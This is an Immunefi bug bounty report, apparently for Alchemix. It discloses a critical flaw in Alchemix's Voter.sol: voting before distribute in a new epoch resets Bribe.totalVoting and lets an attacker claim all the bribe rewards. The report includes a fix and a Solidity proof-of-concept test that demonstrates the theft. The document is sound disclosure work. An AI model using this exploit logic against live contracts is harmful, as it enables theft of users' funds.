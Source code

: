 
# Call the deposit function before the distribute function to steal tokens

Submitted on May 7th 2024 at 19:44:37 UTC by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #30898

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results
- Theft of unclaimed yield

## Description
## Brief/Intro
If an attacker makes a deposit before the `Voter.distribute` function is called in a new epoch, the `Bribe.totalVoting` becomes smaller than the actual sum of votes. This discrepancy provides the attacker with an opportunity to steal funds from the contract.

## Vulnerability Details
- Keeper or anyone will call `Voter.distribute` function to initialize the protocol once a new epoch
- But an attacker can call `Voter.vote` function before the `Voter.distribute` function is called
- If the `Voter.distribute` function is called after the attacker calls `Voter.vote` function, that updates `Bribe.totalVoting` to `0`
- If there is no vote anymore in this epoch, the prevSupply will be 1 when the attacker claims the reward. It means that the attacker can adjust the amount of rewards you will receive. So that the attacker can steal all assets in the Bribe contract.
- If there are other votes after calling distribute function, the attacker can get more than the expected reward.

## Impact Details
- As a result of the vote, it results in a different effect from the expected effect regardless of voting Power.
- An attacker can steal all the rewards in the Bribe contract.

## Recommendation
It is recommended to confirm that the Voter.distribute function was called when users call Voter.vote function in the new epoch, and if it is false, it is recommended to call the distribute function first.


## Proof of Concept
```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract BribePoC is BaseTest {
    uint256 constant DURATION = 2 weeks;
    uint256 constant SECONDS_PER_BLOCK = 12;
    uint256 public epochTime;
    uint256 public epochBlock;

    function setUp() public {
        setupContracts(block.timestamp);
        epochTime = minter.activePeriod();
        epochBlock = block.number;
    }


    function testBugDoSDeposit() public {

        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 10000;

        // go epoch 1
        uint256 period = minter.activePeriod();
        hevm.warp(period + nextEpoch);

        uint256 targetTokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        hevm.prank(admin);
        voter.vote(targetTokenId, pools, weights, 0);

        uint256 totalVoting0 = IBribe(bribeAddress).totalVoting();
        assertGt(totalVoting0, 0, "totalVoting0 = 0");

        voter.distribute();

        uint256 totalVoting1 = IBribe(bribeAddress).totalVoting();
        assertEq(totalVoting1, 0, "totalVoting1 != 0");

        uint256 userTokenId = createVeAlcx(beef, TOKEN_1, MAXTIME, false);

        hevm.prank(beef);
        voter.vote(userTokenId, pools, weights, 0);

        totalVoting1 = IBribe(bribeAddress).totalVoting();
        assertEq(totalVoting1, totalVoting0, "totalVoting1 != totalVoting0");


        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        // go epoch 2
        period = minter.activePeriod();
        hevm.warp(period + nextEpoch);

        voter.distribute();

        // in the second block of epoch 2
        address[] memory bribes = new address[](1);
        bribes[0] = address(bribeAddress);
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        uint256 beforeBalOfAdmin = IERC20(bal).balanceOf(admin);

        hevm.prank(admin);
        voter.claimBribes(bribes, tokens, targetTokenId);

        uint256 deltaBalOfAdmin = IERC20(bal).balanceOf(admin) - beforeBalOfAdmin;

        // The success means the attacker stole all reward of epoch 1
        // In the Bribe contract, rewards for other users who have not claimed for a long time, including rewards from new epoch, may remain.
        // The attacker can steal all these funds.
        assertEq(TOKEN_100K, deltaBalOfAdmin, "The attack is failed");
    }
}
```